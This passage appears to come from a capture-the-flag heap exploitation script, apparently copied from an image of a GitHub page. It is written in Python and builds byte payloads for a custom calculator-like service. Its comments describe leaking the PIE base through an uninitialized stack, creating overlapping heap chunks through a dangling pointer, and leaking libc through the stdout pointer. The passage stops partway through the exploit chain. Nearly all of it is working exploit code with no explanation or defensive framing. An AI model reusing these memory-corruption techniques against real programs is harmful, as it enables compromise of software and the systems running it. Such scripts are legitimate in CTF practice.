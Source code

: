 ```python
    return payload 

def show(idx):
    payload = ''
    payload += '\x04'
    payload += chr(idx)
    return payload 

def calc(t, v0, v1):
    payload = ''
    payload += '\x05'
    if t == '+':
        payload += '\x01'
    elif t == '-':
        payload += '\x02'
    elif t == '*':
        payload += '\x03'
    elif t == '/':
        payload += '\x04'
    else:
        payload += t
    payload += chr(v0)
    payload += chr(v1)
    return payload 

def concat(operator, v0, v1):
    payload = ''
    payload += '\x06'
    payload += chr(operator)
    payload += chr(v0)
    payload += chr(v1)
    return payload 

r = start()
payload = ''

# leak pie with uninitialized stack + invalid opration in func_calc 
payload += alloc(0, 'int', 0)
payload += alloc(1, 'int', 0)
payload += calc('\x7f', 0, 1) 
payload += show(0) 

# create overlap chunk with dangling 
payload += alloc(5, 'char', 0x61)
payload += alloc(6, 'char', 0x62)
payload += alloc(7, 'str', 0x40)

payload += alloc(8, 'char', 0x63)
payload += alloc(9, 'char', 0x64)
payload += alloc(10, 'str', 0x40)
payload += edit(7, 0x40)
payload += edit(10, 0x40)
payload += concat(1, 5, 6)
payload += concat(1, 8, 9)
payload += concat(2, 5, 7)
payload += concat(2, 8, 10)
payload += alloc(11, 'str', 0x60)
payload += alloc(12, 'str', 0x60)
payload += edit(11, 0x60)
payload += edit(8, 2) # 1/16

# leak libc from pointer to stdout
payload += alloc(13, 'str', 0x40)
```